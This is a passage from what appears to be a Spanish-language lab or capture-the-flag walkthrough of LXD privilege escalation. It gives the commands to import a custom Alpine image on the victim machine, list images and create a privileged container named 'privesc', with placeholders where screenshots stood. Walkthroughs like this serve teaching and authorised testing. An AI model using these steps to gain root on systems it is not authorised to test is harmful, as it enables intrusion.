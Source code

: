 💡 _Nota:_ Si estás en un directorio sin permisos (como `/tmp` en algunas configuraciones), puedes recibir errores 404 o “No such file”.

### ✅ Resultado

- Archivos `incus.tar.xz` y `rootfs.squashfs` descargados correctamente en la máquina víctima.
    
- Listos para ser añadidos al repositorio LXD e iniciar la explotación mediante contenedor.

### 🚀 LXD Privilege Escalation — Importar y montar contenedor

📦 Importar la imagen Alpine personalizada

```bash
lxc image import incus.tar.xz rootfs.squashfs --alias alpine
```

![](../img/ea85b353161cffbfe22b4b25f48420ad.png)

✅ _Esto importa la imagen con el alias `alpine`._

🔍 Verificar que se importó bien

```bash
lxc image list
```

![](../img/7666eb7e2d67c8b9ea77e0741037c846.png)

🧱 Crear contenedor privilegiado

```bash
lxc init alpine privesc -c security.privileged=true
```

![](../img/bff9f3421bc89e88f28b115459a10429.png)

→ Crea un contenedor llamado `privesc` con privilegios elevados.
